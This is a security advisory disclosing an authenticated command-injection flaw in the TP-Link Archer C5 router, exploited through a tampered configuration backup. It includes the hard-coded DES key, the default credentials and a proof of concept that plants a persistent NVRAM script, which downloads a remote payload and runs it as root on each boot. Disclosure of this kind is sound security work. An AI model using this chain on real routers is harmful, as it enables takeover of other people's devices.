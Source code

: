 ﻿# TP-Link Archer C5 Authenticated RCE Through Malicious Configuration File Upload


## Description


An authenticated remote code execution (RCE) vulnerability exists in all published firmware versions for the TP-Link Archer C5 router. By uploading a maliciously crafted configuration file, an attacker can inject OS commands that are run with root privileges.


The Archer C5 router allows administrative users to save current configuration parameters to a file, and restore parameters from a file. These parameters seem to be properly sanitized when a user tries to set them within the web GUI. However, they are not properly sanitized when set from a configuration file. In particular, we injected OS commands via the “wan_dyn_hostname 1 <name>” parameter within the uploaded configuration file. Other parameters may also be vulnerable.


## Methodology


A valid configuration file can be downloaded from the “Backup & Restore” menu in the router’s web GUI. The following HTTP request will download a backup of the router’s current configuration:


    GET /userRpm/config.bin HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Linux ia64; rv:60.0) Foxfire/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.0.1/userRpm/BakNRestoreRpm.htm
    Cookie: Authorization=Basic%20YWRtaW46cGFzc3dvcmQ%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
 
The response contains the file “config.bin”, which is the configuration file with which we will tamper.


Configuration files are obfuscated by DES-encrypting them with a hard-coded key. This hard-coded key appears to be re-used across multiple TP-Link products. Credit to Matteo Croce for discovering this hard-coded key value. [http://teknoraver.net/software/hacks/tplink/](http://teknoraver.net/software/hacks/tplink/)


Two simple python scripts are attached to encrypt and decrypt configuration files - “binify.py” and “unbinify.py” respectively. A decrypted configuration file will have parameters like these: 


    wan_dns_auto 2 0
    wan_dyn_mtu 1 1500
    wan_dyn_mtu 2 0
    wan_dyn_ucst 1 0
    wan_dyn_ucst 2 0
    wan_dyn_hostname 1 Archer_C5
    wan_stc_ip 1 0.0.0.0
    wan_stc_ip 2 0.0.0.0
    wan_stc_msk 1 0.0.0.0


We can tamper with this decrypted configuration file by adding a malicious BusyBox command to the “wan_dyn_hostname” parameter, like so:


    wan_dyn_hostname 1 `wget -O - http://bad.url/hack | /bin/sh`


We then encrypt the new malicious configuration file and upload it via the web GUI. The router will automatically reboot. Early in the boot process, when the httpd program is run, our malicious BusyBox command is executed. The pseudocode of the relevant part of httpd is something like this:


    char hostname[64];
    char to_run[256];
    memcpy(hostname, some_value_somewhere, 63);
    snprintf(to_run, 256, "udhcpc -h %s -i eth0", hostname)
    system(to_run);
    // Continue setting up network interfaces and connectivity


There are several limitations to this exploit, even beyond the limitation of having to use BusyBox. The Dropbear SSH server and telnetd do not seem to work over the wireless lan, and the hostname is limited by the firmware to 63 characters. Exceeding this limit overwrites other settings, and breaks internet access. Furthermore, httpd must return from the system() call before it actually has any network connectivity (as the system() call we are exploiting is the one that requests our WAN IP), and the root filesystem is read-only. The above example malicious command would not work; httpd would fail to wget the url since it does not yet have internet access, it would return from the system() call, and then it would continue operating normally.


So at this point we can run a 63 character BusyBox command, on a read-only filesystem, with no trivial way to make the program wait until it has finished setting up network connectivity before executing our command. We cannot simply tell it to sleep for a few minutes and then execute, because the system() call that we inject into is blocking execution.


One thing that we can do, however, is start another instance of httpd at this point in execution. This instance of httpd will also run this system call, which leaves us in a loop that will continuously spawn more instances of httpd, but allow the parent httpd processes to continue executing and ultimately restore network connectivity. To avoid running out of memory, we terminate this loop by checking to see if our exploit has been downloaded.


## Proof of Concept


Working within the above limitations, we came up with the following shell script, which grabs a file from the internet with wget and pipes it straight to /bin/sh.
    cd /tmp 
    if [ ! -f B ]; then 
        httpd & 
        sleep 15
        wget http://jackdoan.com/B
        /bin/sh B
    fi
Or, on one line, minified:
* cd /tmp; if [ ! -f B ]; then (httpd & sleep 15; wget http://jackdoan.com/B; /bin/sh B) fi


This script is an enormous 89 characters, so we need to upload it in chunks. But how? Uploading a command causes a reboot, and a reboot refreshes the state of the router. We realized that we could create our own NVRAM variable, and reference it in subsequent commands to build a command that we eventually run.


We used the vulnerability to inject the following commands and build up an exploit:
    ; nvram set "a=cd /tmp; if [ ! -f B ]; then (htt";nvram commit
    ; nvram set "a=`nvram get a`pd & sleep 15; wget";nvram commit
    ; nvram set "a=`nvram get a` http://jackdoan.co";nvram commit
    ; nvram set "a=`nvram get a`m/B; /bin/sh B) fi"; nvram commit
And finally, trigger the exploit by setting the hostname to:
    ; udhcpc; nvram get a | /bin/sh ;
This script stored in the router’s NVRAM will be run on each boot, and the router will appear to continue working normally. The end result is that the router will reach out to the internet, download a file, and run it as root every time it boots.


## Criticality Assessment


As shown, this vulnerability can be exploited to cause the router to reach out over the internet, grab a payload, and run it with root privileges. Therefore there is high impact on confidentiality, integrity, and availability of the device.


The process of injecting a command via the wan_dyn_hostname parameter of the configuration file is simple. Escaping the limitations of this command to run any arbitrary payload without disrupting normal router functionality is moderately complex.


This attack is moderately visible, as it requires at least one reboot of the device. Our POC requires 5 successive reboots, but persists until the device is factory reset


This vulnerability can be exploited by anyone with access to the web admin account. Thus, with the router’s default configuration this can be exploited via LAN / WLAN connectivity with the default admin credentials of “admin:admin”. This vulnerability can be exploited remotely across the internet, if remote management is enabled. Remote management is disabled by default.


## Suggested Fixes/Solutions
* Run the values restored from a configuration backup through the same functions that check the validity of user input from the web UI
* Force the user to set an admin password during router setup


## Comments


This vulnerability is relatively simple, leading us to believe that it has likely been found and exploited before. The defense against this attack is also incredibly simple: do not use the default administrative password. A strong password to the web administrative account will prevent this attack. Because it is so easy to exploit, and because it is so easy to mitigate, we believe that full disclosure is in the public’s best interest.


For our PoC, we injected via the “wan_dyn_hostname” parameter. However, the config file contains 1190 parameters in total, many of which may be injectable.


## Acknowledgments
* Matteo Croce for discovering the hard-coded key value of 478DA50BF9E3D2CF (http://teknoraver.net/software/hacks/tplink/)
* TP-Link, for providing a toolchain with their GPL-compliance package that allowed us to build GDB for their platform

